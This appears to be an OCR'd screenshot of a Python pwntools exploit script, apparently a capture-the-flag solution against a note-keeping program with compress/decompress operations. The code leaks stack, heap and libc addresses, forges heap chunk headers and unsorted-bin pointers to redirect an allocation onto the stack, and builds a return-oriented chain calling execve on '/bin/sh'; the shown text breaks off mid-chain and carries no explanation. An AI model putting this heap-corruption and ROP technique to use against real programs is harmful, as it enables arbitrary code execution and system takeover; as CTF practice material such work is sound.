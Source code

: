 ```python
    p.recvuntil(b'a'*80)
    stack = u64(p.recv(6)+b'\0\0')

    flate(b'512a'+b'520f')
    p.recvuntil(b'a'*512)
    heap = u64(p.recv(6)+b'\0\0') - 0x16d0

    select_note(0)
    flate(b'512a')
    edit_note(b'X'*0xa0+p64(0)+p64(0x801))
    select_note(0)

    del_note()

    for i in range(8):
        flate(b'424X'+f'{8-i}x'.encode())

    flate(b'424X'+b'1\x20')

    for i in range(7):
        flate(b'416X'+f'{7-i}x'.encode())

    flate(b'416X'+b'1\x201\x04')

    log.success(hex(libc.address))
    log.success(hex(heap))
    log.success(hex(stack))

    if not ((get_5th_byte(libc.address) == 0x7f) and (get_5th_byte(stack) >= 0x7f)):
        p.close()
        continue

    new_note(b'X')

    victim = stack - 0x390
    select_note(1)
    flate(p64(0)+p64(0x41) +
          p64(heap+0x16c0)+p64(heap+0x16c0+0x10))

    deflate(p64(0)+p64(0x421)+p64(heap+0x16c0)+p64(heap+0x16c0+0x10))

    edit_note(p64(libc.sym.main_arena+96) +
              p64(victim-0x10)+p64(victim-0x10)+b'\0'*(0x3e0-0x20-8)+p64(0x3e0)+p64(0x40))

    log.success(hex(stack))
    log.success(hex(libc.address))

    new_note(b'X')
    flate(b'512a')

    GDB()

    try:
        edit_note(
            flat(
                [libc.address+0x000000000002882f,]*0x20 +
                [
                    libc.address + 0x000000000010f75b,
                    next(libc.search(b'/bin/sh')),
                    libc.address+0x0000000000110a4d, 0,
                    libc.address+0x00000000000b5da0,
                    libc.sym.execve

```
